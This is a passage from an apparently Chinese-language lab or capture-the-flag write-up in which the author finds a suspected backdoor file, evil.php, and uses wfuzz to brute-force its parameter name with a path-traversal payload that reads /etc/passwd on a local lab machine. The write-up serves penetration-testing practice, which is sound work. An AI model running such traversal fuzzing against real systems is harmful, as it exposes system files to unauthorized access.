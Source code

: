 ![image-20250325135351965](assets/image-20250325135351965.png)

存在evil.php



#### 访问evil.php

![image-20250325135414483](assets/image-20250325135414483.png)

同样无内容

判断是木马文件

```
evil：邪恶
```





#### 利用wfuzz爆破参数

```
wfuzz -w /home/ra1n3/dic/Common/common.txt -u http://192.168.1.6/secret/evil.php?FUZZ=../../../../../../../../../../../../../etc/passwd --hh 0
```
